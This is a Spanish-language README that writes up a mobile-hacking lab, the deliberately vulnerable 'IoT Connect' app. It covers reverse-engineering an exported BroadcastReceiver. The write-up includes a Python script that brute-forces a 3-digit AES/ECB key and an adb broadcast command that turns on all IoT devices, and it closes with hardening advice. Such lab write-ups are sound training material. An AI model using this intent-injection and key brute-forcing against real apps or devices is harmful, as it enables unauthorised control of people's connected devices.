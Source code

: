 # 🔓 IoT Connect - Análisis y Explotación de BroadcastReceiver Vulnerable

Este repositorio documenta el análisis completo y explotación de una vulnerabilidad crítica en una aplicación Android IoT ficticia, **IoT Connect**, utilizada como laboratorio para prácticas de pentesting móvil.

---

## 🧪 Instalación y Registro

Comenzamos instalando el APK en el dispositivo.

![Instalación del APK](imagenes/01_instalacion_apk.png)

Creamos una nueva cuenta de usuario:  
`fr3do : fr3do`

![Formulario de registro](imagenes/02_signup_form.png)  
![Registro exitoso](imagenes/03_signup_success.png)  
![Inicio de sesión](imagenes/04_login.png)

---

## 🔍 Exploración del Comportamiento

Una vez dentro de la app, notamos que algunos dispositivos pueden ser controlados.

![Vista de control de artefactos](imagenes/05_dispositivos_apagados.png)

Pero como usuario invitado, aparece el mensaje:

> **"Sorry Guest..."**

Esto sugiere que existen funciones ocultas o limitadas por permisos. Es el punto de partida para el análisis en `jadx-gui`.

![Mensaje de error de Guest](imagenes/06_sorry_guest.png)

---

## 🧬 Análisis Estático con jadx-gui

### AndroidManifest.xml

Exploramos el archivo `AndroidManifest.xml` y encontramos:

```xml
<receiver
    android:name="com.mobilehackinglab.iotconnect.MasterReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter>
        <action android:name="MASTER_ON"/>
    </intent-filter>
</receiver>
```
✅ Está exportado, lo que significa que cualquier app externa o ADB puede enviarle un intent.
Componentes Relevantes

Componentes Relevantes
Componentes encontrados en el AndroidManifest:

`MainActivity`, `LoginActivity`, `SignupActivity`
`IoTNavigationActivity`, `HomeActivity`
`MasterSwitchActivity` – Su nombre sugiere control administrativo o maestro.
`CommunicationManager` – Maneja las comunicaciones, y contiene el método `initialize()` que registra dinámicamente el receptor para `MASTER_ON`.

---

## 🧠 Lógica en CommunicationManager
En la clase `CommunicationManager`:

Se registra dinámicamente un `BroadcastReceiver` para la acción `MASTER_ON`.
Se extrae un parámetro `key` del `Intent`.
Se verifica mediante `Checker.INSTANCE.check_key(key)`.
Si es válido, se llama a `turnOnAllDevices(context)`.

---

## 🔐 Análisis de Seguridad: Checker
En la clase `Checker` se encuentra lo siguiente:
```
java
Copiar
Editar
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";

public final boolean check_key(int key) {
    return decrypt(ds, key).equals("master_on");
}
```
El string cifrado se desencripta con AES/ECB/PKCS5Padding.
La clave se genera con el valor entero del PIN proporcionado.
Si el resultado es `"master_on"` el acceso es válido.

---

## 🧨 Fuerza Bruta del PIN
Como el PIN es de 3 dígitos, creamos un script Python para romper la clave por fuerza bruta.

### Código Python
```
from Crypto.Cipher import AES
from base64 import b64decode

ds = "OSnaALIWUkpOziVAMycaZQ=="

def generate_key(key):
    key_bytes = bytearray(16)
    static_bytes = str(key).encode("utf-8")
    key_bytes[:len(static_bytes)] = static_bytes[:16]
    return bytes(key_bytes)

def decrypt(ds, key):
    secret_key = generate_key(key)
    cipher = AES.new(secret_key, AES.MODE_ECB)
    decrypted = cipher.decrypt(b64decode(ds))
    return decrypted.decode("utf-8")

for i in range(100, 1000):
    try:
        result = decrypt(ds, i)
        if "master_on" in result:
            print(f"✔️ Key encontrada: {i}, Resultado: {result}")
            break
    except Exception:
        continue
```

Resultado:

```
✔️ Key encontrada: 345, Resultado: master_on
```

---

## 🚀 Explotación desde ADB
Ahora podemos explotar la vulnerabilidad usando el siguiente comando ADB:


```
adb shell am broadcast -a MASTER_ON --ei key 345
```
Resultado:

✅ El sistema responde:
`All devices are turned on`
✅ Confirmamos que, incluso como "Guest", pudimos activar todos los artefactos IoT.

---

## ✅ Conclusión
Se descubrió un `BroadcastReceiver` vulnerable expuesto sin validación de permisos.
Fue posible forzar la clave por fuerza bruta (solo 3 dígitos).
Se obtuvo control total de los dispositivos conectados simplemente enviando un `Intent`.

---

## 🛡️ Recomendaciones de Seguridad
Establecer `android:exported="false"` para componentes sensibles.
Validar siempre permisos y autenticación en receivers.
Utilizar claves fuertes y derivadas de métodos seguros (PBKDF2, bcrypt, etc).
No usar AES en modo ECB (es inseguro y predecible).
Evitar lógica de seguridad crítica en el lado cliente.

---

## 📁 Créditos
Análisis realizado por fr3do

Laboratorio: IoT Connect - Mobile Hacking Lab
